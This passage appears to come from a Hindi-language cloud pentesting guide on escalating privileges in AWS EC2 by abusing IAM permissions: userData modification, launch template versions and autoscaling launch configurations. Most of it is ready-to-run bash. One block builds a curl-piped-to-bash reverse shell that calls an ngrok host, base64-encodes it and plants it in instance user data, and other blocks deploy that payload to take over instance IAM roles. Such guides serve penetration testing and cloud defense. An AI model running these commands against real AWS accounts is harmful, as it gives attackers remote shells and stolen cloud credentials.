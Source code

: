 ```bash
printf $TEXT | base64 > "$TEXT_PATH"

aws ec2 stop-instances --instance-ids $INSTANCE_ID

aws ec2 modify-instance-attribute \
--instance-id="$INSTANCE_ID" \
--attribute userData \
--value file://$TEXT_PATH

aws ec2 start-instances --instance-ids $INSTANCE_ID
```
**संभावित प्रभाव:** एक निर्मित इंस्टेंस पर जुड़े किसी भी EC2 IAM रोल को सीधे वृद्धि।

### `ec2:CreateLaunchTemplateVersion`,`ec2:CreateLaunchTemplate`,`ec2:ModifyLaunchTemplate`

एक हमलावर जिसके पास **`ec2:CreateLaunchTemplateVersion`,`ec2:CreateLaunchTemplate` और `ec2:ModifyLaunchTemplate`** अनुमतियाँ हैं, एक **नया लॉन्च टेम्पलेट संस्करण** बना सकता है जिसमें **उपयोगकर्ता डेटा** में **रेव शैल** हो और **उस पर कोई भी EC2 IAM रोल** हो, डिफ़ॉल्ट संस्करण को बदल सकता है, और **कोई भी ऑटोस्केलर समूह** जो **उस लॉन्च टेम्पलेट का उपयोग** करता है जो **नवीनतम** या **डिफ़ॉल्ट संस्करण** का उपयोग करने के लिए **कॉन्फ़िगर** किया गया है, उस टेम्पलेट का उपयोग करके इंस्टेंस को फिर से चलाएगा और रेव शैल को निष्पादित करेगा।

{% code overflow="wrap" %}
```bash
REV=$(printf '#!/bin/bash
curl https://reverse-shell.sh/2.tcp.ngrok.io:14510 | bash
' | base64)

aws ec2 create-launch-template-version \
--launch-template-name bad_template \
--launch-template-data "{\"ImageId\": \"ami-0c1bc246476a5572b\", \"InstanceType\": \"t3.micro\", \"IamInstanceProfile\": {\"Name\": \"ecsInstanceRole\"}, \"UserData\": \"$REV\"}"

aws ec2 modify-launch-template \
--launch-template-name bad_template \
--default-version 2
```
{% endcode %}

**संभावित प्रभाव:** एक विभिन्न EC2 भूमिका में सीधा उन्नयन।

### `autoscaling:CreateLaunchConfiguration`, `autoscaling:CreateAutoScalingGroup`, `iam:PassRole`

एक हमलावर जिसके पास **`autoscaling:CreateLaunchConfiguration`, `autoscaling:CreateAutoScalingGroup`, `iam:PassRole`** अनुमतियाँ हैं, वह एक **लॉन्च कॉन्फ़िगरेशन** बना सकता है जिसमें एक **IAM भूमिका** और एक **रिवर्स शैल** होता है **उपयोगकर्ता डेटा** के अंदर, फिर उस कॉन्फ़िगरेशन से एक ऑटोस्केलिंग समूह बना सकता है और रिवर्स शैल से **IAM भूमिका चुरा सकता है**।
```bash
aws --profile "$NON_PRIV_PROFILE_USER" autoscaling create-launch-configuration \
--launch-configuration-name bad_config \
--image-id ami-0c1bc246476a5572b \
--instance-type t3.micro \
--iam-instance-profile EC2-CloudWatch-Agent-Role \
--user-data "$REV"

aws --profile "$NON_PRIV_PROFILE_USER" autoscaling create-auto-scaling-group \
--auto-scaling-group-name bad_auto \
--min-size 1 --max-size 1 \
--launch-configuration-name bad_config \
--desired-capacity 1 \
--vpc-zone-identifier "subnet-e282f9b8"
```
**संभावित प्रभाव:** एक विभिन्न EC2 भूमिका में सीधा उन्नयन।